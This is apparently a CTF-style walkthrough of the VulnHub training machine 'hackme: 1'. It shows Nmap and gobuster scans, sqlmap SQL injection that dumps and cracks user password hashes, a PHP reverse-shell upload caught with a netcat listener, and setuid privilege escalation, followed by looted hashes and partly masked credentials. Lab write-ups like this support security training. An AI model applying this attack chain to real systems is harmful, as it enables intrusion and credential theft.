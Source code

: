 [VulnHub] hackme: 1
===============
date: 27/Sep/2019
summary: This is a writeup for VulnHub machine hackme: 1.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [hackme: 1](https://www.vulnhub.com/entry/hackme-1,330/). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](/static/files/posts_vulnhub_hackme/machinescli.png.webp)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](/static/files/posts_vulnhub_hackme/killchain.png.webp)

### TTPs
1\. `80/tcp/http/Apache httpd 2.4.34 ((Ubuntu))`: [exploit_php_fileupload](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [exploit_php_reverseshell](https://github.com/7h3rAm/writeups#exploit_php_reverseshell), [privesc_setuid](https://github.com/7h3rAm/writeups#privesc_setuid)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Fri Sep 27 12:01:02 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.hackme/results/192.168.92.180/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.hackme/results/192.168.92.180/scans/xml/_quick_tcp_nmap.xml 192.168.92.180
Nmap scan report for 192.168.92.180
Host is up, received arp-response (0.0022s latency).
Scanned at 2019-09-27 12:01:03 PDT for 11s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:a8:24:d6:09:2f:c9:9a:8e:ab:bc:6e:7d:4e:b9:ad (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD0KQXcUd/+zfBtJFhP+25xVD0f+ujGrlKTw/Ho8wy41nYgrtyHiiscKmJUv7XKAfjC8YImead1E+okzuRvpT1HX3l1xMwfWboty0V3IezTFxYIpUPmqejoC9uSsKxpd5h+vDRwchjCQGZpumuei5QT+OyY7XpdUB3P/lica+QEO2Af4ZFmeOOizRYvabosnbg2rGObbkTbMZVcGdL67ECncSRP5mcjH2cnXqAAiDEs+F9YtR0oRVX8+SqaVXLqrNzIeZxqH8BW1f0O4SPq5tsHiYbCco4yb9iMgnX1EPd981wt40+6D0N3BB1QYciv6RAS4fKCP+Akk2c4tThBGm7t
|   256 ab:e8:4f:53:38:06:2c:6a:f3:92:e3:97:4a:0e:3e:d1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKTgFkEMmekHRtPsKN9f6w7/m1ih/8MraIwM4yIy5/hRW8ct1Ghc6YnhhI0KJGYF6KYiCgyKK97mVEpBVf98O5w=
|   256 32:76:90:b8:7d:fc:a4:32:63:10:cd:67:61:49:d6:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPPEwLR2lULYITB1F789nQ/INIXH6NhMCHK25Z3pJquX
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.34 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.34 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 00:0C:29:49:EA:B5 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 27 12:01:14 2019 -- 1 IP address (1 host up) scanned in 12.51 seconds
```

2\. Here a summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_hackme/openports.png.webp)  

3\. We find quite a few interesting links from the `gobuster` scan and open the `http://192.168.92.180:80/index.php` page to explore the web application further:  
```
gobuster -u http://192.168.92.180:80/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -e -k -l -s "200,204,301,302,307,401,403" -x "txt,html,php,asp,aspx,jsp"
  http://192.168.92.180:80/config.php (Status: 200) [Size: 0]
  http://192.168.92.180:80/index.php (Status: 200) [Size: 100]
  http://192.168.92.180:80/index.php (Status: 200) [Size: 100]
  http://192.168.92.180:80/login.php (Status: 200) [Size: 1245]
  http://192.168.92.180:80/logout.php (Status: 302)
  http://192.168.92.180:80/register.php (Status: 200) [Size: 1937]
  http://192.168.92.180:80/server-status (Status: 403) [Size: 302]
  http://192.168.92.180:80/uploads (Status: 301)
  http://192.168.92.180:80/welcome.php (Status: 302)
```

4\. We are redirected to the `http://192.168.92.180:80/login.php` link at every page visit so we try some common credentials and SQLi attempts. When these do not help, we decide to use the registration option which takes us to the `http://192.168.92.180:80/register.php` page. We register a username `foobar` with `foobar` password and get logged in to the web application:  

![writeup.enumeration.steps.4.1](/static/files/posts_vulnhub_hackme/screenshot01.png.webp)  

![writeup.enumeration.steps.4.2](/static/files/posts_vulnhub_hackme/screenshot02.png.webp)  

![writeup.enumeration.steps.4.3](/static/files/posts_vulnhub_hackme/screenshot03.png.webp)  

### Findings
#### Open Ports
```
22/tcp  |  ssh   |  OpenSSH 7.7p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.34 ((Ubuntu))
```

## Phase #2: Exploitation
1\. The web application presents an online book catalog with a search box. We run `sqlmap` on this page and find the search function vulnerable to SQLi. We dump contents of `webapphacking` database and find MD5 hashed passwords within `users` table. Most of these passwords are easily cracked but we had to use an online MD5 cracker for the password hash of user `superadmin`:  
```
cat searchform.txt
  POST /welcome.php HTTP/1.1
  Host: 192.168.92.180
  User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Referer: http://192.168.92.180/welcome.php
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 11
  Cookie: PHPSESSID=a9nbe6ikh8ugo269h3rckltqp1
  DNT: 1
  Connection: close
  Upgrade-Insecure-Requests: 1
  
  search=test
sqlmap -r searchform.txt --dbs --batch
sqlmap -r searchform.txt -D webapphacking --dump-all --batch
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_hackme/screenshot04.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_hackme/screenshot05.png.webp)  

![writeup.exploitation.steps.1.3](/static/files/posts_vulnhub_hackme/screenshot06.png.webp)  

![writeup.exploitation.steps.1.4](/static/files/posts_vulnhub_hackme/screenshot07.png.webp)  

![writeup.exploitation.steps.1.5](/static/files/posts_vulnhub_hackme/screenshot08.png.webp)  

![writeup.exploitation.steps.1.6](/static/files/posts_vulnhub_hackme/screenshot09.png.webp)  

2\. We log in to the web application as user `superadmin` and are presented with file upload functionality. We create a PHP reverse shell file and upload it successfully. There was no need to bypass any kind of upload filters in this case. The location for uploaded files is already known to be `192.168.92.180/uploads/` directory from the `gobuster` scan. We find our uploaded file within this directory and proceeded to get the initial shell:  
```
nc -nlvp 443
192.168.92.180/uploads/rs.php
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_hackme/screenshot10.png.webp)  

![writeup.exploitation.steps.2.2](/static/files/posts_vulnhub_hackme/screenshot11.png.webp)  

![writeup.exploitation.steps.2.3](/static/files/posts_vulnhub_hackme/screenshot12.png.webp)  

![writeup.exploitation.steps.2.4](/static/files/posts_vulnhub_hackme/screenshot13.png.webp)  

## Phase #2.5: Post Exploitation
```
www-data@hackme> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@hackme>  
www-data@hackme> uname
Linux hackme 4.18.0-16-generic #17-Ubuntu SMP Fri Feb 8 00:06:57 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
www-data@hackme>  
www-data@hackme> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.180  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::20c:29ff:fe49:eab5  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:49:ea:b5  txqueuelen 1000  (Ethernet)
        RX packets 486204  bytes 304231697 (304.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 315253  bytes 40538335 (40.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
www-data@hackme>  
www-data@hackme> users
root
hackme
```

## Phase #3: Privilege Escalation
1\. We start with usuals and explore `crontab` and `sudo` permissions. Next is searching for `setuid` files. We find an interesting file `/home/legacy/touchmenot`:  
```
find / -type f -perm -04000 2>/dev/null
  /home/legacy/touchmenot
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_hackme/screenshot14.png.webp)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_hackme/screenshot15.png.webp)  

2\. We locate this file and check it's permissions manually. We then procced to execute this file and get elevated access:  
```
ls -la /home/legacy/touchmenot
file /home/legacy/touchmenot
/home/legacy/touchmenot
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_hackme/screenshot16.png.webp)  

## Loot
### Hashes
```
hackme:$6$.L285vCy$Hma4mKjGV.sE7ZCFVj2iOkRokX1u3F5DMiTPQFoZPJnQ1kUXLje/bY2BIUQFbYu.8M6BvLML5fAftZOCE........................
```
### Credentials
```
webapp: user1/he..., user2/comma..., user3/p@ssw..., test/testt..., superadmin/Uncrac....., test1/testt...
```

## References
* <https://www.vulnhub.com/entry/hackme-1,330/>  
* <https://www.hackingarticles.in/hackme-1-vulnhub-walkthrough/>  
